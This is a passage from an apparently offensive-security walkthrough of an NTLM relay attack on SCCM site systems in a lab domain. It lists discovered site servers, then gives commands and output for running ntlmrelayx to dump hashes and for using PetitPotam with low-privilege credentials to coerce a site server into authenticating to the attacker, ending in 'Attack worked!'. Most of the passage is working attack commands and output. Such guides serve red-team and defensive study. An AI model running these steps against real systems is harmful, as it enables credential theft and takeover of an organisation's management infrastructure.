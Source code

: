 ```
                    +-----------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                    | sql2.internal.lab     | None       | False           | False        | False             | False               | False         | False  | True    |
                    +-----------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                    | wsus.internal.lab     | None       | False           | False        | False             | False               | False         | True   | False   |
                    +-----------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                    | provider.internal.lab | None       | False           | False        | False             | False               | True          | False  | False   |
                    +-----------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                    | dp.internal.lab       | LAB        | False           | False        | False             | True                | False         | False  | False   |
                    +-----------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
```

2. Start `ntlmrelayx`, targeting all of the discovered *LAB* site systems.  For this example, no additional flags are provided and the tool will simply attempt to dump hashes on the target system:

```
└─# ntlmrelayx.py -tf sccm_lab_targets.txt  -smb2support
Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666
```

3. Coerce authentication from the target site server to the attacker host's IP address:
```
└─# python3 PetitPotam.py -u lowpriv -p x 10.10.100.136 10.10.100.9 -d internal.lab

Trying pipe lsarpc
[-] Connecting to ncacn_np:10.10.100.9[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```
